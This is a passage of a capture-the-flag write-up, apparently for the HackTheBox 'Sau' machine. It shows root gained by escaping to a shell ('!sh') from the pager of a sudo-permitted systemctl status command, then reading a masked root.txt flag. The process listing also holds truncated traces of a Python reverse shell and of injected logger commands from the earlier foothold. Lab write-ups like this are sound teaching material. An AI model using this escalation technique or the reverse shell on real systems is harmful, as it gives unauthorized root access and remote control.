 I just ran the command, and before closing the status screen I wrote `!sh` in the terminal.

```
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Wed 2023-09-13 07:27:07 UTC; 7h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 879 (python3)
      Tasks: 187 (limit: 4662)
     Memory: 561.6M
     CGroup: /system.slice/trail.service
             ├─  879 /usr/bin/python3 server.py
             ├─ 2731 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed >
             ├─ 2732 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed >
             ├─ 2735 sh
             ├─ 2736 python3 -c import socket,os,pty;s=socket.socket(socket.AF_>
             ├─ 2749 /bin/sh
             ├─12205 /bin/bash
             ├─19086 sudo /usr/bin/systemctl status trail.service
             ├─19087 /usr/bin/systemctl status trail.service
             ├─19088 pager
             ├─19094 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed >
             ├─19095 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed >
             ├─19098 sh
             ├─19099 python3 -c import socket,os,pty;s=socket.socket(socket.AF_>
lines 1-23!sh
!sshh!sh
# whoami
whoami
root
```

Then I just went to the `root/` directory and read the `root.txt` file.

```
# cd /root
cd /root
# cat root.txt
cat root.txt
********************************
```